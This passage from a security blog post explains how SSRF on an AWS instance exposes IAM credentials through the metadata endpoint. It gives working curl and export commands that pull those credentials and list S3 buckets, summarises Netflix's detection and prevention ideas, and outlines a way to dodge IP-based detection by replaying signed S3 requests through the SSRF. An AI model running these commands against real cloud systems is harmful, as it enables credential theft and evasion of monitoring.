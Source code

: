 But **SSRF can be really nasty in a cloud environment**.

### Using compromised credentials

Obviously, once you have those credentials, you can use them from anywhere in the world.

In the following listing, from a local machine exploiting SSRF, first we get the credentials and then those credentials are used to get the number of S3 buckets.

local $ curl -s <aws-machine-ip>/?url=<http://169.254.169.254/latest/meta-data/iam/security-credentials/gonzalo-metadata> > /tmp/aws\_cred.json
local $ export AWS\_ACCESS\_KEY\_ID=$(jq -r '.AccessKeyId' /tmp/aws\_cred.json)
local $ export AWS\_SECRET\_ACCESS\_KEY=$(jq -r '.SecretAccessKey' /tmp/aws\_cred.json)
local $ export AWS\_SESSION\_TOKEN=$(jq -r '.Token' /tmp/aws\_cred.json)
local $ aws s3 ls|wc -l
 8Let’s reiterate this again.


> Once you’ve got the credentials, you can use them to access any AWS services that the instance is allowed to access.#### Mitigations

Last year people in Netflix where already aware of this problem and wrote a couple of super interesting articles on [detection](https://medium.com/netflix-techblog/netflix-cloud-security-detecting-credential-compromise-in-aws-9493d6fd373a) and [prevention](https://medium.com/netflix-techblog/netflix-information-security-preventing-credential-compromise-in-aws-41b112c15179) for this type of attacks.

You should read both articles, because they explain the problem and solutions better than me. In any case, my layman summary would be:

* For **detection**, you can parse CloudTrail (AWS CloudTrail is a service that logs every call to AWS). Simplifying, you would check and record the IP from where the instance makes an API call for the first time. If later on, that instance makes another call from a different IP, it is most likely an attacker using the credentials he/she has already obtained.
* For **prevention**, instances wouldn’t have direct access to the metadata endpoint. They would have access to a proxy that would check if the call has a specific header attached. Attaching a header to the proxy would be more difficult than making a simple request.
### REST API exploiting

Netflix’s **detection** technique assumes that once the credentials are compromised, the attacker no longer uses the EC2 instance to access AWS services. And with that assumption, detects the compromise in a change of IP address.

![Wolf in sheep’s clothing](/img/1*VQB6XiMQRlENB2a59jeZ2g.jpeg)Wolf in sheep’s clothing (by [Drew Travin](https://www.flickr.com/photos/drewtarvin/24107843813))But that is not a correct assumption. Because [some](https://docs.aws.amazon.com/AmazonS3/latest/API/RESTServiceGET.html) of the AWS services can be accessed via GET using a REST API (and a specific [signing process](https://docs.aws.amazon.com/AmazonS3/latest/API/sig-v4-authenticating-requests.html)). And if the attacker managed to invoke the metadata endpoint, it may be able to invoke the REST API, especially considering that REST APIs can receive all the parameters via query string.

I’m not going to detail the steps (sorry, no public code), but I can confirm that the following works:

* Use SSRF to get the credentials (as we saw it before).
* Build the request and sign it. In [this example](https://docs.aws.amazon.com/general/latest/gr/sigv4-signed-request-examples.html#sig-v4-examples-get-query-string) you can see how to do it, although it will need some modifications because that script doesn’t manage session tokens. The documentation is not quite correct (*COUGH*payload\_hash*COUGH*).
* Use SSRF again to send the request using the URL for the signed request. In the below example, the invocation uses only a GET request with query string parameters (no need to send headers). The end result is a list of buckets that the instance can access. Using SSRF we have accessed AWS APIs.
local $ eval `python3 creds.py`
<?xml version="1.0" encoding="UTF-8"?>
<ListAllMyBucketsResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Owner><ID>[REDACTED]</ID><DisplayName>[REDACTED]</DisplayName></Owner><Buckets><Bucket><Name>[REDACTED]</Name><CreationDate>2019-07-09T19:01:03.000Z</CreationDate></Bucket>[...]</Buckets></ListAllMyBucketsResult>I want to stress that since we’re using SSRF, the request comes from the instance.

